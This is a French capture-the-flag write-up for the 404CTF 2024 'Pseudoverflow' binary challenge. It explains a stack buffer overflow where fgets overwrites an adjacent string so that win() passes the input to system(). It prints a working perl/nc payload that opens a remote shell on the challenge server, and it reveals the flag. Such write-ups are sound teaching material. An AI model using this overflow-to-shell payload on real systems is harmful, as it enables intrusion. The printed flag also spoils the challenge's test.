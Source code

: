 # Pseudoverflow

<img alt="énoncé du challenge" src="enonce.png" width=500>

----

Le fichier fourni est un fichier 64 bits :

```sh
$ file course
course: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=74c3be86c1c3aa9eaa680f3a81f6925ed3ec0fd6, for GNU/Linux 4.4.0, not stripped
```

Celui-ci ne dispose pas de protection d'overflow de la stack :

```sh
$ checksec course
[*] '/404CTF2024/course'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

La décompilation avec IDA Freeware permet de récupérer le code en C des principales fonctions :

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[106]; // [rsp+0h] [rbp-70h] BYREF
  char s1[6]; // [rsp+6Ah] [rbp-6h] BYREF

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  strcpy(s1, "perds");
  puts(::s);
  fgets(s, 256, stdin);
  if ( !strcmp(s1, "gagne") )
    win(s);
  else
    puts("Nous vous recontacterons dans les prochaines semaines.");
  return 0;
}

int __fastcall win(const char *a1)
{
  return system(a1);
}
```

On voit que si on arrive à appeler `win` avec `/bin/sh` en paramètre, on pourra alors obtenir un shell sur le serveur.

Pour que `win` soit appelé, il est nécessaire que `s1` soit égal à la chaine `"gagne"` (ie : `s1 == 'gagne\x00'` - ne pas oublier le `nul` indiquant la fin d'une chaine en C). Mais celle-ci est initialisée à `"perds"`.

Cependant, comme sur la stack, la chaine `s1` est positionnée juste avant la chaine `s`, respectivement en `rbp-6h` et `rbp-70h`, un overflow de `s` permet de venir écraser le contenu de `s1`.

Un overflow va pourvoir être réalisé grâce à la fonction `fgets` qui remplit `s` avec au plus `256` caractères fournis en entrée, alors que sa capacité maximale de stockage a été définie à `106`. Ainsi à partir du 107ème caractères saisis, on remplit `s1`.

On peut commencer par valider l'exploit en local :

```sh
$ cat <(perl -e 'print "/bin/sh" . " " x 93 . ";echo " . "gagne\x00" ') - | ./course
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :

whoami
philou44
exit
gagne
```

Avant de le réaliser sur le serveur et récupérer le flag `404CTF{0v3rfl0w}` :

```sh
$ cat <(perl -e 'print "/bin/sh" . " " x 93 . ";echo " . "gagne\x00" ') - | nc challenges.404ctf.fr 31958
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :

ls
course
flag.txt
cat flag.txt
404CTF{0v3rfl0w}

exit
gagne
```
